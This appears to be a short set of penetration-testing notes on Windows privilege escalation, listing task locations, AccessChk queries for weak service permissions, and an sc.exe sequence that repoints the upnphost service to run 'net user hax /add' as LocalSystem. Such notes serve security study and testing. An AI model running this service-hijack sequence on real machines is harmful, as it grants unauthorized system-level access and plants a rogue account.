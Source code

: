 ### Tasks and Jobs

- system tasks
	- AT - usually runs tasks as system
	- scheduled tasks - can run as user

- viewing tasks
```
c:\windows\tasks
c:\windows\system32\tasks
```
- commands
```
AT
schtasks
compmgmt.msc
```

### Services

- Orphaned Installs
	- Missing files in writable locations

- AccessChk
	- Sysinternals tool
	- Find weak permissions
	- `accesschk.exe -uwcqv *`
	- dangurous permissions:
		- `SERVICE_CHANGE_CONFIG`
		- `WRITE_DAC`
		- `WRITE_OWNER`
		- `GENERIC_WRITE`
		- `GENERIC_ALL`
		- `SERVICE_ALL_ACCESS`
- suggested queries:
```
accesschk.exe -qwcu "Authenticated Users" *
accesschk.exe -qwcu "Users" *
accesschk.exe -qwcu "Everyone" *
```

- Service control
	- `sc.exe`
	- native windows cmd tool
	- e.g. `sc qc upnphost`
	- If you can reconfigure a service:
		```
		sc config upnphost binpath= "net user hax /add"
		sc config upnphost obj= ".\LocalSystem" password=""
		net stop upnphost
		net start upnphost
		```

### Other Permission Issues

